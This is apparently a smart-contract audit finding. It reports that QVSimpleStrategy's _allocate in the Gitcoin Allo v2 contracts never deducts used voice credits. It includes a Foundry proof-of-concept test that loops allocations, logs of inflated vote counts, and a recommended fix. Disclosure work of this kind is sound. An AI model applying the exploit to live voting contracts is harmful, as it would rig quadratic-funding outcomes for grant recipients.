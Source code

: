 Oblong Clay Kangaroo

high

# Infinite Voting in QVSimpleStrategy
There is no update to the credit used in QVSimpleStrategy's `_allocate`, so voting can continue without consuming credit.
## Vulnerability Detail
### details

QVSimpleStrategy's `_allocate` checks if there are any VoiceCredits left via `_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)`.

However, it does not update `allocator.voiceCredits` after `_allocate`.

Therefore, user can continue to allocate as many times as `maxVoiceCreditsPerAllocator`, which can lead to vote manipulation.
POC:

```solidity
function test_Infinite_allocate() public {
        address recipientId = __register_accept_recipient();
        address allocator = randomAddress();

        vm.startPrank(pool_manager2());
        qvSimpleStrategy().addAllocator(allocator);

        vm.warp(allocationStartTime + 10);
        bytes memory allocateData;

        vm.stopPrank();

        for(uint256 i =0;i<100;i++) {
            allocateData = __generateAllocation(recipientId, 100);
            vm.prank(address(allo()));
            qvSimpleStrategy().allocate(allocateData, allocator);
        }
    }
```

Result:

```solidity
[PASS] test_Infinite_allocate() (gas: 2886076)
Logs:
  voiceCreditsCastToRecipient 100
  votesCastToRecipient 10000000000
  voiceCreditsCastToRecipient 300
 ...
  voiceCreditsCastToRecipient 15845632502852867518708790067100
  votesCastToRecipient 2814749767106560000000000
  voiceCreditsCastToRecipient 31691265005705735037417580134300
  votesCastToRecipient 3980657295328607852889883
  voiceCreditsCastToRecipient 63382530011411470074835160268700
  votesCastToRecipient 5629499534213120000000000
  voiceCreditsCastToRecipient 126765060022822940149670320537500
  votesCastToRecipient 7961314590657215705779767
```
## Impact
allocate can still be done, which can manipulate the vote.
## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L107-L124
## Tool used

Manual Review

## Recommendation
The number of credits used in `_allocate` should be added to `allocator.voiceCredits`.